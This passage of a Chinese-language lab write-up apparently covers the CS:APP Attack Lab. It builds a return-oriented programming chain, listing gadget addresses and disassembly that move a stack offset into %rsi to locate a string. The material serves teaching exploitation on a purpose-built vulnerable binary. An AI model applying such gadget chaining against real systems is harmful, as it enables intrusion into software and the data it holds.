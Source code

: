 其作用是将 `%rdi` 和 `%rsi` 的值之和传给 `%rax` 寄存器。目前 `%rsp` 的值保存在 `%rdi` 寄存器中，因此我们需要想办法把偏移量 `offset` 的值传到 `%rsi` 寄存器，从而我们就能利用这个 gadget 中的指令得到字符串的实际地址。

类似 [4.4.1](#441-第-1-句指令) 节，我们可以将 `offset` 的值先保存在栈中，然后利用 `popq` 指令弹栈传给某个寄存器，此后再利用 `movq`、`movl` 等指令传到 `%rsi` 寄存器。

###### 5.4.1.4 第 1 个 gadget

由 [4.4.1.1](#4411-第-1-个-gadget) 节，第 1 个 gadget 中有汇编指令：

```asm
popq   %rax
ret
```

该指令的地址为 `0x4019cc`。

现在我们的目标就转化为利用 `movq`、`movl` 等指令将 `%rax` 的值传到 `%rsi` 寄存器。遗憾的是，gadget farm 中并不存在直接将 `%rax` 的值传给 `%rsi` 寄存器的汇编指令，因此需要进行多次传递。

###### 5.4.1.5 第 5 个 gadget

注意到 gadget farm 中函数 `addval_436` 对应的汇编语句：

```asm
0000000000401a11 <addval_436>:
  401a11:   8d 87 89 ce 90 90       lea    -0x6f6f3177(%rdi),%eax
  401a17:   c3                      retq
```

其中机器码 `89 ce 90 90 c3` 对应汇编指令：

```asm
movl   %ecx,%esi
ret
```

该指令的地址为 `0x401a13`。

###### 5.4.1.6 第 6 个 gadget

注意到 gadget farm 中函数 `getval_159` 对应的汇编语句：

```asm
0000000000401a33 <getval_159>:
  401a33:   b8 89 d1 38 c9          mov    $0xc938d189,%eax
  401a38:   c3                      retq
```

其中机器码 `89 d1 38 c9 c3` 对应汇编指令：

```asm
movl   %edx,%ecx
cmpb   %cl,%cl
ret
```

该指令的地址为 `0x401a34`。这里 `cmpb %cl,%cl` 相当于一条无用指令。

###### 5.4.1.7 第 7 个 gadget
